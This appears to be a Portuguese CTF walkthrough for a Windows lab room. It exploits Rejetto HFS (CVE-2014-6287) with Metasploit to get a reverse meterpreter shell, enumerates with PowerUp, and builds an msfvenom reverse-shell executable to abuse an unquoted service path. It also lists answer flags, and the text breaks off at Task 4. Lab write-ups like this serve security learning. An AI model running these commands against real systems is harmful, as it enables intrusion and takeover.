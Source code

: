 # Introdução

O objetivo dessa room é hackear uma máquina Windows com tema Mr. Robot. Uso do metasploit para acesso inicial, utilização de powershell para enumeração de escalonamento de privilégios do Windows e uso de uma nova técnica para obter acesso de administrador.

# Execução

## Task 1 - Introduction

A primeira tarefa consiste apenas em realizar o deploy da VM alvo e responder uma questão. 

Ao abrir o ip da VM no navegador, é exibida a página, conforme figura abaixo:

![Home page](images/employee_of_the_month.png)

Como dica para resposta da questão da task: ***Reverse image search***.

Primeira medida, consultar o código fonte da página para ver se tem alguma pista:

![Source code](images/employee_of_the_month02.png)

Nome do arquivo da foto do empregado: ***BillHarper.png***. Está ai a resposta!!!
### Questões:

- a. ***Who is the employee of the month?*** *Bill Harper*

## Task 2 - Initial Access  

Após o deploy da VM, primeiro etapa para continuar com a resolução da room, é um scan port.

### nmap

Criando uma variável de ambiente com o IP do alvo:

```shell
export TARGET=10.10.44.161
```

Execução do nmap:

```shell
nmap -A -T5 -Pn -p- $TARGET -oX portscan -vvv
```

Mais informações do comando acima no [link](https://explainshell.com/explain?cmd=nmap+-A+-T5+-Pn+-p-+%24TARGET+-oX+portscan+-vvv)

Outra porta está respondendo na web, a porta 8080. Ao abrir no browser http://TARGET:8080, observa-se que existe um serviço HPS rodando. Ao acessar http://www.rejetto.com/hfs/, site do fornecedor, pode ser respondida a questão ***b***.

### Pesquisa por CVE

De posse do nome do serviço e versão (HttpFileServer 2.3), pode-se acessar o https://www.exploit-db.com/ para verificar a existência de exploits e checar qual CVE para responder a questão ***c***.

A pesquisa é retornada diretamente no link: https://www.exploit-db.com/exploits/49125

Na própria descrição, existe a CVE indicada: CVE-2014-6287. Para responder a questão ***c***, colocar apenas a parte que tem os números, ou seja, 2014-6287.

### Acesso inicial

Inicia-se o msfconsole:

```shell
msfconsole
```

Pesquisa dentro da console do msfconsole:

![Search no msfconsole](images/msfconsole_search_httpfileserver.png)

Habilitar o exploit:

```shell
msf6 > use exploit/windows/http/rejetto_hfs_exec 
[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp
```

Para confirmar o que necessida ser configurado, basta digitar ***options***.

Após realizar as configurações necessárias, basta executar o comando ***run***.

```shell
msf6 exploit(windows/http/rejetto_hfs_exec) > run

[*] Started reverse TCP handler on 10.8.95.233:4443 
[*] Using URL: http://10.8.95.233:8888/qYhpuVYDp6r7
[*] Server started.
[*] Sending a malicious request to /
[*] Payload request received: /qYhpuVYDp6r7
[*] Meterpreter session 1 opened (10.8.95.233:4443 -> 10.10.44.161:49278) at 2022-07-17 20:06:02 -0400
[*] Server stopped.
[!] This exploit may require manual cleanup of '%TEMP%\UDHzvnZunWC.vbs' on the target

meterpreter > 
```

Para responder a questão, há uma dica ***C:\Users\bill\Desktop***. Após a shell reversa ser aberta, basta ir até o diretório indicado e visualizar o conteúdo do arquivo ***user.txt***.

```shell
meterpreter > dir
Listing: C:\Users\bill\Desktop
==============================

Mode              Size  Type  Last modified              Name
----              ----  ----  -------------              ----
100666/rw-rw-rw-  282   fil   2019-09-27 07:07:07 -0400  desktop.ini
100666/rw-rw-rw-  70    fil   2019-09-27 08:42:38 -0400  user.txt

meterpreter > cat user.txt
b04763b6fcf51fcd7c13abc7db4fd365
meterpreter > 
```

### Questões:

- a. ***Scan the machine with nmap. What is the other port running a web server on?*** *8080*

- b. ***Take a look at the other web server. What file server is running?*** *Rejetto HTTP File Server*

- c. ***What is the CVE number to exploit this file server?*** *2014-6287*

- d. ***Use Metasploit to get an initial shell. What is the user flag?*** *b04763b6fcf51fcd7c13abc7db4fd365*

## Task 3 - Privilege Escalation  

Agora que já se tem um acesso inicial ao alvo, deve-se realizar uma enumeração em busca de fraquezas que possam ser exploradas para elevar privilégios.

Para enumerar esta máquina, pode-se usar o script powershell chamado ***[PowerUp](https://github.com/PowerShellMafia/PowerSploit/blob/master/Privesc/PowerUp.ps1)***, cujo objetivo é avaliar uma máquina Windows e determinar quaisquer anormalidades, que permitam escalonamento de privilégios do Windows que dependem de configurações incorretas.

Após realizar o download do script para a máquina atacante, dentro do msfconsole, é possível realizar o upload, com o comando:

```shell
upload PATH_ONDE_SALVOU_O_DOWNLOAD_DO_SCRIPT/PowerUp.ps1
```

Execução:

```shell
meterpreter > upload /home/kali/PowerUp.ps1
[*] uploading  : /home/kali/PowerUp.ps1 -> PowerUp.ps1
[*] Uploaded 2.13 MiB of 2.13 MiB (100.0%): /home/kali/PowerUp.ps1 -> PowerUp.ps1
[*] uploaded   : /home/kali/PowerUp.ps1 -> PowerUp.ps1
```

Para executar o script, primeiro inicia-se o powershell dentro da console do meterpreter:

```shell
meterpreter > load powershell
Loading extension powershell...Success.
meterpreter > powershell_shell
PS > 
```

Execução do script:

```shell
PS > . .\PowerUp.ps1
PS > Invoke-AllChecks
```
Na saída, haverá a resposta para questão ***b*** .

A opção CanRestart estando configurada como Trus, nos permite reiniciar um serviço no sistema, o diretório para o aplicativo também é gravável, permitindo que possamos substituir o aplicativo legítimo por um malicioso, reiniciar o serviço, que executará nosso programa infectado!

Com o msfvenom, vamos gerar um shell reverso como um executável do Windows:

```shell
msfvenom -p windows/shell_reverse_tcp LHOST=IP_HOST_ATACANTE LPORT=4444 -e x86/shikata_ga_nai -f exe-service -o Advanced.exe
```

### Questões:

- a. ***Informações sobre como enumerar o alvo*** *Não há necessidade de resposta*

- b. ***Take close attention to the CanRestart option that is set to true. What is the name of the service which shows up as an unquoted service path vulnerability?*** *AdvancedSystemCareService9*

- c. 

## Task 4 - Access and Escalation Without Metaspl
oit 


